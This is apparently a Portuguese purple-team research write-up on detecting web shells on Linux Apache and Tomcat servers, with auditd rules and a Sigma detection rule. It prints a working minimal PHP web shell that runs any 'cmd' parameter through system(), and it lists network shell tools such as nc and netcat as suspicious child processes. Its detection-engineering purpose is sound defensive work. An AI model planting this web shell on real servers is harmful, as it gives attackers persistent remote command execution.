

<p align="center">
  
</p>

# CTI Purple Team -  Execução de Comando Através de Web Shells em Servidores Web no Linux

$\color{black}{\textsf{Pesquisador}}$ : $\color{red}{\textsf{Bryenne Bonfim}}$

$\color{black}{\textsf{Tipo de Ameaça}}$ : $\color{orange}{\textsf{RTTP}}$

$\color{black}{\textsf{TLP}}$ :  $\color{red}{\textsf{RED}}$

$\color{black}{\textsf{Nível de Impacto}}$ :  $\color{red}{\textsf{Alta}}$

$\color{black}{\textsf{Tipo de Impacto}}$ :  $\color{red}{\textsf{Persistência}}$
-----------

**Web Shell** é uma técnica eficaz para estabelecer e manter [*Persistência*](https://attack.mitre.org/tactics/TA0003/) em Servidores Web acessíveis pela internet. Essa técnica é descrita pelo [*MITRE ATT&CK*](https://attack.mitre.org/) como [*Server Software Component: Web Shell - T1505.003*](https://attack.mitre.org/techniques/T1505/003/). A eficácia dos Web Shells advém do fato de serem desenvolvidos na mesma linguagem de programação utilizada pela aplicação web alvo, permitindo que o artefato malicioso se disfarce entre os arquivos benignos. A falta de gerenciamento de segurança das Aplicações Web facilita ainda mais a implantação de uma Web Shell entre os arquivos legítimos da aplicação, muitas vezes sem que os responsáveis notem sua presença.

Abaixo, podemos observar de forma resumida como ocorre o processo de execução de comandos através de uma Web Shell.

<p align="center">
  
</p>

Esse método é amplamente utilizado por grupos de ***Ameaça Persistente Avançada*** (como [*APT38*](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-239a), [*APT39*](https://www.mandiant.com/resources/blog/apt39-iranian-cyber-espionage-group-focused-on-personal-information), [*Sandworm*](https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf) entre muitos outros). A execução dos procedimentos relacionados a essa técnica já foi identificada em servidores Linux. Portanto, é extremamente importante entender como a execução de comandos através de Web Shells pode ser identificada em servidores Linux.

Esta pesquisa tem como objetivo desenvolver inteligência através da emulação da TTP *T1505.003*, com o objetivo de criar assinaturas de detecção para os principais servidores web utilizados em sistemas Linux (como Apache e Tomcat), instalados em servidores Linux.

## Contexto

Um web shell é um backdoor instalado em um servidor web por um invasor. Uma vez instalado, ele se torna o ponto de apoio inicial do invasor e, se nunca for detectado, então se torna um backdoor fácil e persistente.

No nosso exemplo, para instalar um web shell, adicionamos um arquivo **.php** inválido dentro. `/var/www/html`. Alguns motivos pelos quais isso pode acontecer são:

- o aplicativo da web tem uma API de upload vulnerável
- o aplicativo da web tem uma vulnerabilidade crítica de RCE
- o invasor tem acesso existente que pode modificar o conteúdo da pasta raiz da web

Se o invasor puder enviar arquivos maliciosos que sejam executados como .php, ele poderá obter acesso remoto à máquina. Neste guia vou fornecer passos detalhados, comandos e exemplos de scripts para diferentes servidores web (Apache, Nginx, Tomcat). Isso incluirá a colocação de uma Web Shell e a configuração de uma shell reversa para o atacante. 

## Emulação de Ameaça I - Instalando Web Shell (PHP) no Servidor Apache

Neste tópico iremos executar um Web Shell desenvolvido em PHP, seguindo o contexto no qual um servidor web está hospedado no Servidor Apache.

Supondo que já temos o RCE, adicionamos um arquivo php `shell.php` que conterá nosso web shell e nossa shell reversa:

```zsh
nano /var/www/html/shell.php
``` 

Escolha qualquer exemplos de shells web php. Por exemplo:

```zsh
<html>  
<body>  
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">  
<input type="TEXT" name="cmd" id="cmd" size="80">  
<input type="SUBMIT" value="Execute">  
</form>  
<pre>  
<?php  
    if(isset($_GET['cmd']))  
    {  
        system($_GET['cmd']);  
    }  
?>  
</pre>
```

> [!NOTE]
> Este é apena um exemplo de um shell web php simples. O shell web utilizado em nossa emulação de ataque é um pouco mais complexo e será disponibilizado caso haja interesse. Basta contactar o analista criador deste guia.

Agora, qualquer pessoa com acesso `http://ip_servidor_vítima/shell.php` poderá acessar o shell da web e executar comandos arbitrários.

<p align="center">
  
</p>

Abaixo, podemos observar a sequência de execução dos comandos ls e cat.

<p align="center">
  
</p>

<p align="center">
  
</p>

## Detecção de Ameaça I - Web Shell Apache PHP

### Usando Auditd para Monitorar Execução de Comando para www-data

Quando executamos servidores web como `apache` o serviço será executado sob o usuário `www-data`. Em operações regulares, não devemos esperar ver o usuário executando comandos como `whoami` ou `ls` 

No entanto, se houvesse um web shell, esses são alguns dos comandos que provavelmente veremos. Portanto, devemos usar *auditd* para detectá-los.

Aqui está uma regra do auditd que procurará por syscalls `execve` por `www-data`(euid=33) e marcaremos isso como `detect_execve_www`.

```zsh
-a always,exit -F arch=b64 -F euid=33 -S execve -k detect_execve_www  
-a always,exit -F arch=b32 -F euid=33 -S execve -k detect_execve_www
```

Obtemos os seguintes logs auditd analisados ​​pelo auditd:

<p align="center">
  
</p>

Aqui está um exemplo de um log auditd bruto para `ls` 

<p align="center">
  
</p>

Isso nos permite observar:

- `euid=33, uid=33`: UID efetivo da ação que é `www-data` 
- `comm="ls" exe="/usr/bin/ls”` - o comando que foi executado
- `key="detect_execve_www"`- a chave do alerta auditd que foi disparado

## Emulação de Ameaça II - Web Shell / Reverse Shell tomshell.jsp

Normalmente, o Tomcat é executado por um usuário específico (tomcat, www-data, etc.). Você deve saber sob qual usuário o Tomcat está rodando. Você pode verificar isso com o comando:

```zsh
ps aux | grep tomcat
```

Crie um arquivo JSP no diretório padrão do seu servidor ou o diretório de sua preferência, aqui usaremos o diretótio do Tomcat padrão do servidor localizado em `/opt/tomcat/webapps/ROOT/`.

<p align="center">
  
</p>

Abaixo, podemos observar a sequência de execução dos comandos whoami e ls.

<p align="center">
  
</p>

<p align="center">
  
</p>

## Detecção de Ameaça II - Web Shell / Reverse Shell (Java) no Tomcat Server
### Procurando Execução de Comando Usando Auditd

Para monitorar a execução de comandos através de uma web shell .jsp usando auditd, você pode configurar regras de auditoria para capturar execuções de processos que são iniciados pelo servidor de aplicação (como Tomcat). O objetivo é capturar a execução de qualquer comando que possa ser iniciado através de scripts JSP.

Supondo que o Tomcat esteja sendo executado pelo usuário tomcat, você pode monitorar todas as execuções de comando feitas por esse usuário. Adicione uma regra para monitorar todos os comandos executados pelo usuário do Tomcat. Edite o arquivo de regras do auditd:

```zsh
-a always,exit -F arch=b64 -S execve -F euid=tomcat -k command_exec
-a always,exit -F arch=b32 -S execve -F euid=tomcat -k command_exec
```

Aqui está um exemplo de um log auditd bruto para `whoami`

<p align="center">
  
</p>

Isso nos permite observar:

- `pid=172176`: UID efetivo da ação que é `tomcat` 
- `comm="jspawnhelper" exe="/usr/lib/jvm/java-17-openjdk-amd64/lib/jspawnhelper"` - caminho completo do executável
- `name="/usr/sbin/whoami"`- os comandos que foram executados na shell
- `key="command_exec"`- a chave do alerta auditd que foi disparado

## Engenharia de Detecção

Na seção a seguir, vamos sintetizar como caçar os indicadores de comprometimento produzidos por webshells em servidores Linux.

### Caçando Indicadores de Comprometimento 

Nesta seção, vamos sintetizar os principais pontos que podemos utilizar para construir uma detecção eficaz para monitorar os eventos relacionados à execução de comandos através de uma Web Shell em servidores Linux. Com base no comportamento observado durante a emulação da execução de comandos através de uma Web Shell, os principais pontos de detecção são:

- Processo-pai: binários de aplicação web como (`apache2`, `nginx`ou `tomcat`)
- Processo-filho: binários suspeitos incluem (`bash`, `sh`, `python`, `nc`, `netcat`, `perl`, `php` ou `jsp`).
- Configurar **auditd** para monitorar execução de comandos suspeitos e modificações de arquivos.

No contexto da implementação de uma Web Shell ou Shell Reversa em servidores Tomcat, o nome do processo-pai pode variar dependendo da forma como o Tomcat foi instalado e configurado.
- Geralmente, o processo Tomcat é java, mas pode ter diferentes nomes de serviço ou estar localizado em diferentes diretórios.
- Verificar os logs específicos do Tomcat em `/opt/tomcat/webapps/ROOT/` ou no diretório configurado pelo administrador.
----------------

### Padrão SIGMA: Server Software Component: Web Shell in Linux Server

```yaml
title: 'Linux - Execução de Comando Através de Web Shells em Servidores Web no Linux - BASELINE'
id: 6b269379-fdbb-4b33-9b35-1d6972453ba0
status: stable
description: 'Detecta a execução de comandos através de uma Web Shell em Linux Servers'
references: 
    - 'https://attack.mitre.org/techniques/T1505/003/'
author: CTI Purple Team - Bryenne Soares
date: 02/07/2024
tags:
    - attack.persistence.TA0003
    - attack.T1505.003 # Server Software Component: Web Shell
logsource:
    category: process_creation
    product: Linux
    definition: auditd
detection:
    Process_Name:
      process_name|endswith:
      - 'ls'
      - 'whoami'
      - 'id'
      - 'cat'
    Cmd_Exec:  
        type: 'SYSCALL'  
        syscall: 'execve'  
        key|contains: 
        - 'detect_execve_www'
        - 'command_exec'
    condition: Process_Name AND Cmd_Exec
fields:
    - 
falsepositives:
    - "É necessário validar se foi realizado uma ação administrativa de conhecimento da equipe de infraestrutura"
level: high
```

## Conclusão

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link]()